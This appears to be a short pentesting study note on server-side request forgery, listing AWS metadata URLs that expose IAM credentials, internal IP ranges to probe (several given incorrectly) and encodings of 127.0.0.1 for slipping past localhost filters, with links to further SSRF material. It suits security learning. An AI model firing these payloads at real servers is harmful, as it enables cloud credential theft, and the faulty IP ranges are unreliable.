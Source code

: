 # SSRF

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
0177.0.0.1
0x7f.0.0.1
127.0.1
127.1
2130706433
017700000001
0x7f000001
```

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery is a must visit when it comes to ssrf bypasses


## Mindmap

![SSRF Mindmap](/ssrf_mindmap.png)


## Articles

| WriteUp | Description |
| --- | --- |
| https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962 | Configure burp to look for SSRFs |
| https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery | All about SSRF |
| https://github.com/jdonsec/AllThingsSSRF | All Things SSRF |
| https://github.com/assetnote/blind-ssrf-chains | Blind SSRF Chains | 
